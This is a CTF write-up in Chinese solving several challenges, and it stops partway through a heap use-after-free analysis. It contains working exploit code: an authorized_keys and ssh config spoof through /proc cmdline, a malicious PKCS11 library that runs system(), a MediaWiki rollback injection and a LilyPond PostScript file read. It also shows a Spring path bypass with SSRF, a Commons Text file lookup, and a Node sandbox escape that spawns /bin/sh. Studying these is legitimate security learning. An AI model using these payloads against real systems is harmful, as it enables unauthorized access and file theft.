# Writeup by gzz

[toc]

## 签到

网上随便找了一个PDF解密服务，把PDF扔上去，然后再直接复制出来文字内容。然后花了好一阵子才发现是从上往下数 从左往右数 你学会了吗

后来发现原来去年的比赛题也是这样的23333


## 小Z的服务器

据说这道题开赛两天都没有人做，不过我看了一下并不难，于是就先做了这道题。阅读Dockerfile，可以发现，创建了三个用户，`guest`, `admin1`, `admin2`，指向相同的用户目录，共有flag两个，分别归admin1和admin2管，而admin2的特点在于，他的默认shell是个假的，这个我们后面再分析。

先打admin1。我们本身进去的时候就已经以guest身份登录了，又能够控制authorized_keys，理论上我们可以ssh进admin1，但是问题是我们自己的authorized_keys他的所有者不对，sshd在检查的时候也会检查所有者。

这个我们就要好好读一读sshd的相关逻辑：

[user_key_allowed](https://github.com/openssh/openssh-portable/blob/1875042c52a3b950ae5963c9ca3774a4cc7f0380/auth2-pubkey.c#L778)     [safe_path_fd](https://github.com/openssh/openssh-portable/blob/ca98d3f8c64cfc51af81e1b01c36a919d5947ec2/misc.c#L2241)     [safe_path](https://github.com/openssh/openssh-portable/blob/ca98d3f8c64cfc51af81e1b01c36a919d5947ec2/misc.c#L2177)

发现他会去check authorized_keys文件的所有者是root或admin1，并且文件权限是755或更小。我们是没法创建admin1所有的文件了，但是root的有没有机会？

这里我第一想法是，想办法把ssh key的信息刷到某个系统log里，再把这个log软链接到authorized_keys。不过后来在各种目录里转悠的时候想到了一个更简单的方法，就是用proc文件系统，直接创建一个root进程，cmdline包含我们想写入的数据，就可以有一个root拥有的/proc/XX/cmdline文件了。创建root进程很简单，用su就可以了，其他具有setuid位的东西理论上也行，比如sudo或者ping之类的。我们不需要让这些进程干什么事情，只需要他们存在就好了。

```bash
cp ~/.ssh/id_rsa.pub /tmp/pub
cd .ssh
su root bash "$(echo -e "TEST\n$(cat /tmp/pub)\nabc")" &
ln -s /proc/$!/cmdline authorized_keys2

chmod 755 ~
chmod 755 ~/.ssh
```

这样一来，我们直接`ssh admin1@localhost`就可以进admin1了，拿到第一个flag。

实际上我本来注意到safe_path中还对父目录做了所有者检查，以为在这里需要卡一个race condition，需要在他判断完authorized_keys本身之后快速把.ssh链接成一个别的root拥有的目录，结果还没这么做就直接过去了，可能我把代码看岔了。

接下来我们看admin2。我们仍然是可以用`ssh admin2@localhost`直接登录的，但是登录以后会执行默认shell `/etc/guest.sh`，内容如下：

```bash
#!/bin/sh
ssh -q nobody@localhost
```

想要绕过这个shell本身是没有好办法的，不然那些`/bin/false`或者`/sbin/nologin`之类的就成了开玩笑了。我也试了一些方法，比如`~/.profile`发现sh不会去跑，再比如`~/.ssh/rc`，虽然会运行，但是[会调用上面这个假shell运行](https://github.com/openssh/openssh-portable/blob/25bd659cc72268f2858c5415740c442ee950049f/session.c#L1216) ，这个script显然是不会去管`-r`参数的，等于没用。

网上有个类似的问题：https://security.stackexchange.com/questions/191939/bypassing-the-command-script-specified-in-etc-passwd

从这个问题的回答中，可以发现他们的思路还是利用这个shell本身的问题，比如read命令的问题之类的。对于我们的情况，就是要利用一下它里面跑的ssh nobody这个命令，看能不能找出它的一个副作用之类的。

这里就要使用到我们对ssh的了解了，在`~/.ssh/config`下面写入`Host localhost`配置文件，就可以控制很多和ssh客户端相关的行为。比如可以控制客户端ssh出去的时候是否要转发X server，是否转发key agent等等。他还包含一些可以在本地执行命令的配置，我知道的有`LocalCommand`，还有`ProxyCommand`。结果试了都发现不行，结合代码也发现全调用shell了，尴尬。

后来想了一个办法，尝试用X11相关的特性，如`XAuthLocation`来执行命令，这个虽然不会调用shell，但只有在本地有DISPLAY环境变量的时候才有效，这就需要我们在`ssh admin2`的时候完成至少一次成功的X转发，可惜就差这一步，因为[docker环境的bug](https://unix.stackexchange.com/questions/111519/ssh-returns-message-x11-forwarding-request-failed-on-channel-1)（启用了ipv6但并没有分配ipv6地址），其中的sshd无法实现X转发，就卡在这里了。

最后我的解决方法是用`PKCS11Provider`这个属性，它可以直接加载一个动态库到ssh客户端的进程里，这就舒服了。我们编译一个假的pkcs provider，设置它一加载就执行我们的命令：

```c
#include <stdio.h>
#include <stdlib.h>

void __attribute__((constructor)) _my_init(void) {
	system("chmod 777 /flag2");
}
```

编译好，base64编码一下，传输到服务器上解码，然后：

```bash
chmod +x /tmp/fakepkcs.so

cat > /tmp/pycfg <<EOF
import os
os.execve("/usr/bin/su", ["""
Host localhost
  PKCS11Provider /tmp/fakepkcs.so
#"""], os.environ.copy())
EOF

python3 /tmp/pycfg &
ln -sf /proc/$!/cmdline ~/.ssh/config

ssh admin2@127.0.0.1
```

就可以拿到flag2了。


后半场给的提示说明，预期解仍然是xxxxCommand的选项，发现KnownHostsCommand并不会调用shell，我这个非预期解属实是绕大远路了。感想：大家还是要[好好读文档](https://man.openbsd.org/ssh_config)，不要像我一样。


## 企鹅文档

进到“访问企鹅文档”里，发现“此范围已被保护”。这题真的是腾讯给的嘛？我攻击我自己？这个如果打过去了岂不是说明腾讯文档自己的安全性有问题23333 打开F12，然后看了好久好久。保护范围好说，我们可以发现只需要屏蔽这个请求：



保护就无了。


然而还是不能复制怎么办呢？


又搜索这个无法复制的提示，找到对应的代码，看了好久好久，



在这里断下来，顺着调用栈往前慢慢找。


然后就发现这个地方保存了能否复制的标志位。这应该是一个Getter所以不能直接赋值，


我们自己定义一个就好了，复制好以后进入这个网页



好的，之前搞了那么半天就是为了不去分析表格内容的流量，这样一来还是要分析表格内容流量才行了：（ 

下载har包，用charles打开。回到我们之前的表格，又看了好久，知道了表格内容的api是这个：`docs.qq.com/dop-api/get/sheet?*`。



表格内容的流量找到了，接下来是不是该分析json了？我不，我选择用charles在这个地址下断点，然后打开一个新的文档，把响应替换成这个内容。这样打开的新文档显示的内容就包含flag了，我们直接人眼观察并打出来就可以了。


## 私有笔记

进去发现是部署了MediaWiki，这你跟我说不要一上来看代码，我也知道的，因为我看不完这么多代码啊qaq

`/index.php/特殊:版本`，包含了很多版本信息，主页还贴心列出了CVE查找网站，那肯定是要我们复现某些CVE了。


就是它了，描述完美符合题目的要求。

https://phabricator.wikimedia.org/T297574 这里列出了代码改动，我好久不看php代码了，于是就没仔细去看。先看看有没有直接列出利用方式。

https://www.mediawiki.org/wiki/2021-12_security_release/FAQ 这个安全公告中提到：





这就有了，我们只需要访问`/index.php?title=首页&action=rollback&from={{:Flag}}`



就好了。拿到Flag1并可以登录了。那剩下的肯定就是getshell了。



一看就是个很奇怪的扩展啊，版本这么老，一查CVE: https://www.mediawiki.org/wiki/Extension:Score/2021_security_advisory 这里就列出来了



继续查，发现是因为这个乐谱插件支持内嵌postscript，而内嵌的postscript编译的时候没开对安全选项，导致可以嵌入命令。

那我们就需要先学习乐谱软件怎么嵌入postscript，再学习postscript怎么嵌入命令。第一个还好说，去[这里](https://www.mediawiki.org/wiki/Extension:Score) 找一个例子，再去[这里](https://lilypond.org/doc/v2.23/Documentation/snippets/editorial-annotations)  找如何嵌入postscript的例子。可是第二个我怎么搜也没搜到好用的例子，只有只言片语让我学会了如何读任意文件，却不知道如何列出文件列表，或者运行命令得到结果。

不过这个也够了，因为我可以猜我们的flag就在`/flag2`下，事实证明猜对了：

```
<score>
\relative c'' {
  \override NoteHead.stencil = #(ly:make-stencil (list 'embedded-ps
    "gsave
      currentpoint translate
      newpath
      0 0.25 moveto
      1.3125 0.75 lineto
      1.3125 -0.25 lineto
      0 -0.75 lineto
      closepath
      fill
      grestore
gsave
/Helvetica 2 selectfont
/buff 4096 string def
/file_obj (/flag2) (r) file def 
file_obj buff readstring
buff show
% CURRENT POINT IS AT END OF STRING (306+? 396)
grestore
" )
    (cons 0 1.3125)
    (cons -.75 .75))
  g4
}
</score>
```




## 企业级理解

题面

> 有些企业选择了历久弥新的 Spring Framework，毕竟只需要写几行配置就能为一个巨大的 Web App 增加自动生成的登录页面，工程师放心，产品经理也放心。

疯狂暗示这个登录页面有问题。

不过我很菜，不能直接看出问题。在网上搜了搜知道怎么玩了：https://www.cnblogs.com/nice0e3/p/16798843.html 这个博客指出，antMatchers这东西治标不治本，加个斜杠就绕过去了。


这个form的action我们也手动加个斜杠。选第三个选项就能出flag1了。

另外不管是查看这个页面源代码也好，看一开始那两页纸也好，都能知道下一步代码在`/admin/source_bak`这里。



这就能看到，原来是把url的一部分当做后端的地址去访问的。题目提示说要访问bonus服务，也就是8080端口的那个服务。我们把`http://localhost:8080`用urlencode两次，把form action改成`/admin/http%253A%252F%252Flocalhost%253A8080%252F/`，得到：



/bonus就是flag2了，访问即可。查看bonus服务上的source_bak得到：



看他过滤了这么多东西，然后用了这个叫做interpolator.replace的东西，那我们就去看看这个有什么用法，在[这里](https://commons.apache.org/proper/commons-text/apidocs/org/apache/commons/text/StringSubstitutor.html)可以看到，这用法还真不少。其中有一个file功能，直接用了就搞定了：

`${file:UTF-8:/root/flag3.txt}`

不知道他过滤是在针对哪种做防范。


## 这也能卷

前端那个限制直接手动设置一下localStorage就可以了.

```js
localStorage.setItem('i_am_premium_user', 'true')
```

看代码，有功能可以后端执行运算，而且是直接eval的。

当然没那么简单，因为他加了一个regex限制：`^([a-z0-9+\\-*/%(), ]|([0-9]+[.])+[0-9]+)+$`

合理，只能使用数字、字母（如exp sin之类）、加减乘除取模、括号之类的。

这里面有两个限制挺伤的，一个是不能用点号`.`（只能在数字周围用，等于不让用），一个是不能用方括号`[]`，如果能用的话jsfuck类似的原理就直接过去了。这里卡了好久，后来首先想到，能用`%`我们可以用unescape构造任意字符，然后又想到，啊，可以用`/`构造js的正则表达式字面量！于是就非常简单，我们对任意一个想要执行的js代码，首先把所有字符用urlencode强制编码，然后套上eval和unescape就行了。为了不让两边的`/`号出问题，我们加点东西就好了：

```python
while True:
    a = input()
    print('eval(1+unescape(/' +
          ''.join('%%%02x' % ord(a)
                  for a in ('1;' + a + '//')) +
          '/)+1)')
```


chrome那个环境，我们用上面的方法拿到`document.documentElement.innerHTML`，也就是往服务器提交一个`eval(1+unescape(/%31%3b%64%6f%63%75%6d%65%6e%74%2e%64%6f%63%75%6d%65%6e%74%45%6c%65%6d%65%6e%74%2e%69%6e%6e%65%72%48%54%4d%4c%2f%2f/)+1)`，拿到源码以后直接就看到flag了。


本来以为node环境也不难，直接`require("child_process").execSync("ls /")`之类的，结果发现我小看它了。那个policy.json还真是个沙盒，禁止了所有的import，统统会提示

```
Error [ERR_MANIFEST_DEPENDENCY_MISSING]: Manifest resource file:///app/backend/runner.js does not list XXXX as a dependency specifier for conditions: node, import, node-addons
```

这里我又卡了很久很久，包括打出globalThis所有的变量，一个一个看都没找到有什么思路能让我去读文件或者跑命令。process是最有可能的，但我看那个文档也没找到什么地方可以用。直到查到了这个博客：https://www.netspi.com/blog/technical/web-application-penetration-testing/escape-nodejs-sandboxes/

他提到process下有一个无文档私有api, 叫做bindings，暴露了所有c interface。他举的例子是fs，不过我们一步到位，用`spawn_sync`来。跑去翻[node源代码](https://github.com/nodejs/node/blob/main/lib/child_process.js)，看看`child_process`是怎么调用底层接口的，不过发现也就是多完善了一下参数，然后直接去调用了。我们稍微本地hook一下这个binding，就能拿到完整的参数了：

```js
process.binding('spawn_sync').spawn({ maxBuffer: 1048576,  shell: true,  args: [ '/bin/sh', '-c', 'cat /flag' ],  cwd: undefined,  detached: false,  envPairs: ['PWD=/'], file: '/bin/sh', windowsHide: false, windowsVerbatimArguments: false, killSignal: undefined, stdio: [ { type: 'pipe', readable: true, writable: false }, { type: 'pipe', readable: false, writable: true }, { type: 'pipe', readable: false, writable: true } ] }).output[1].toString()
```

以上代码就可以无import实现`child_process.execSync`的效果，于是就可以直接解决本题。

后来看到后半场给的提示，让我看process文档，问题是这东西也不在process的文档里啊？


## 混淆器

这题没有那么难，虽然是堆题，但出题人处处闪耀着人性的光辉（bushi），人工降低了很多的难度。

之前我没做过和堆有关系的pwn（事实上其他pwn也没怎么做过），在[ctf wiki](https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/introduction/) 上可以找到一些入门的知识，现学现卖。

LLVM的数据结构在官网上能够找到一个[详尽的文档](https://llvm.org/doxygen/) 。

题目的漏洞不难找，后半场给的提示“在分支的处理中”，分支指令的处理包含如下的代码：



在LLVM这些指令数据结构里，所有内存都是归LLVM自己负责释放的，这里的delete就是多此一举，实际上造成了use after free。

事实上这个代码的漏洞，还有另一个方式找到，那就是直接google搜这个程序的片段，发现：


发现这个片段是ollvm这一开源代码的一部分，对比就发现多了这个delete了。

当然，这题只是非常非常精简的一部分代码，还加了一个menu函数，功能就是如果IR中调用了特定名字的函数，那就执行一些操作。操作包括：

* wher3: 用malloc申请一段特定大小的内存，存到一个全局变量里。
* wr1te: 向申请到的内存的特定位置写入特定字符，会有边界检查，然后字符数据的来源可以是原有IR中的立即数，也可以是re4d得到的。
* re4d: 从申请到的内存中读取特定位置的字符，暂存到一个vector里，之后可以用wr1te把他再次写入
* c1ear: 用free释放掉wher3申请的内存。
* p4int: 输出前若干条指令的数据结构地址。
* g1ft: 读取flag，前面接上`flag for u:`（12个字符，冒号后还有空格），计算一下base64，然后什么也不做，再把这些string都析构掉。

既然flag曾经在内存里出现过了，那肯定是想让我们找地方泄露出这个数据。

菜单中只有p4int有输出可以让我们看，然而他打出来的是地址而不是内容，怎么办？观察这个输出过程：



发现它内层循环枚举BasicBlock基本块中的所有指令输出地址，用的是BasicBlock自带的迭代器，而查阅[文档](https://llvm.org/doxygen/classllvm_1_1BasicBlock.html#a98c0a84a5dfa8bce341c829709f171e5)并经过一些[递归查找](https://llvm.org/doxygen/SymbolTableListTraits_8h_source.html) 后可知，这是一个链表，而且是个intrusive list，意思是这个链表的prev/next指针是包含在链表元素内部的field中的。如果我们能控制某一个指令的数据结构，覆盖它的next指针，就能通过p4int输出到next指针上我们写的内容，当然控制不好的话p4int会在这里炸掉，不过我们至少能够拿到7~8个byte的泄漏输出。

（这里我一开始想复杂了，以为需要先把next指到一个想要读的地址，然后再让这个地址加上它next的偏移是我们想泄露的输出，造一个任意地址读，结果这并不是一道交互题，只能一次把所有代码输进去，而且由于水平不行怎么也对不齐malloc出来的内存地址前几个byte，因此地址是无法预先确定的。后来发现可以用re4d配合wr1te直接读flag，出题人降难度石锤了）

那么我们先想办法拿flag的base64数据，用re4d存下来。



这个手写的base64不错啊，后半部分是我自己加的调试。要注意的小坑是这个base64Chars字符集，嗯改了几种字符对应的位置，解码的时候要改回来：



那么我们本地运行一下，进base64Encode的时候断一下，然后设上malloc和free的断点，观察一下内存分配是怎么分的。要这么做是因为它是一个字符一个字符地塞进这个std::string out里，会引发动态内存重分配，类似vector，我们最后能够发现，最后能够存下的大小是121个bytes。于是我们这样：

```
  call void @g1ft()
  call void @wher3(i32 121)
```

在g1ft完了以后，这些局部变量都被释放了，紧接着立刻申请一个同样大小的内存，发现非常amazing啊，把这个内存救回来了：



接下来我们re4d一下，结果发现，前16个读出来都是0，这就难受了，只有从[16]开始的才是没被破坏的数据。由于我们g1ft和wher3是紧挨着了，刚释放就再申请，还是会有数据被破坏掉。重新gdb，watch一下这几个字符，发现是在free的时候，调用了`tcache_put`，看起来是把前16个字符拿去维护tcache的数据结构了，这部分数据废了。

